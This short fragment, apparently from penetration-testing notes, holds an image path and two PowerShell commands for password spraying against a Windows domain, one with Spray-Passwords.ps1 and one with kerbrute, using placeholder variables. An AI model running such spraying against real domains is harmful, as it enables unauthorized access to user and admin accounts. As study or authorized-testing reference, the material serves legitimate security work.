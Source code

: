 ```powershell
.\Spray-Passwords.ps1 -Pass $PASSWORD -Admin # 
```

```powershell
.\kerbrute_windows_amd64.exe passwordspray -d $DOMAIN $USERLIST $PASSWORD
```